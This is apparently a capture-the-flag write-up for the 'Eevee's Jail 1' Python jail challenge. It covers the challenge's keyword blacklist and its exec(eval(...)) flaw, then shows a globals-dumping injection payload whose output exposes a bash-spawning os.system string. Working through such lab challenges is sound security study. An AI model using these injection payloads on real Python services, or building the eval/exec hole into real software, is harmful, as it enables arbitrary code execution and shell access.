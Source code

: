 
**1.blacklist: Blocks sensitive words like flag, locals, vars, {}, and backslash.**

**2.ascii(input(...)): Takes input and escapes non-ASCII characters.**

**3.if any(...): Checks if user input contains blacklisted code .**

**4.eval(...) inside exec(...): Runs the user's input as Python code.**

**5.If input is blacklisted it will raises an error and prints an error message.**

---
## 💥 Exploit Analysis <br><br>
```python
exec(eval(huh))
```
**We can see here this command executing the "exec"(eval(huh)) this segment of code that was core vuln of it  .**<br>


## ⚙️ Exploit Strategy

```python
exec("print(globals())")
```
 **So now  lets try listing all the global variable maybe we can get few hints there.**


 <br>

```
========================
=    Eevee's Jail 1    =
========================
[+] > exec("print(globals())")
{
 '__name__': '__main__',
 '__doc__': None,
 '__package__': None,
 '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x725e4f522ed0>,
 '__spec__': None,
 '__annotations__': {},
 '__builtins__': <module 'builtins' (built-in)>,
 '__file__': '/jail-1/jail-1.py',
 '__cached__': None,
 'shell': "__import__('os').system('bash')",
 'blacklist': ['flag', 'locals', 'vars', '\\\\', '{', '}'],
 'banner': '\n========================\n=    Eevee\'s Jail 1    =\n========================\n',
 '_': "__import__('os').system('bash')",
 'huh': 'exec("print(globals())")'
}
[+] >
```
**Okay the most interesting part here is that is we can see that there is a 'shell': "__import__('os').system('bash')" line of code ,**

---